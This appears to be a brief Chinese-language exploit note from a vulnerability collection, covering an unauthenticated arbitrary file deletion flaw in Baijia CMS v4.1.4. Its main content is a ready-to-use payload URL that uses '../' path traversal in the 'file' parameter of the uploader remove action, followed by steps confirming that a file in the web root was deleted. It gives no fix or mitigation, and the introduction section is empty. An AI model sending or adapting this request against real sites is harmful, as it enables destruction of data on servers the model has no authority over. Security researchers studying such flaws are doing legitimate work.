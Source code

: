 百家cms v4.1.4 任意文件删除漏洞
===============================

一、漏洞简介
------------

二、漏洞影响
------------

百家cms v4.1.4

三、复现过程
------------

    # payload
    # 不需要后台权限
    # 只能删除文件，不能删除文件夹

    http://www.0-sec.org/index.php?mod=mobile&act=uploader&op=post&do=util&m=eshop&op=remove&file=../qwe.txt

设置里需要选择本地，否则删除的不是本地文件

![](./.resource/百家cmsv4.1.4任意文件删除漏洞/media/rId24.png)

先在根目录下创建qwe.txt作为测试文件

![](./.resource/百家cmsv4.1.4任意文件删除漏洞/media/rId25.png)

访问payload

![](./.resource/百家cmsv4.1.4任意文件删除漏洞/media/rId26.png)

查看文件，已经被删除

![](./.resource/百家cmsv4.1.4任意文件删除漏洞/media/rId27.png)

参考链接
--------

> https://xz.aliyun.com/t/7542
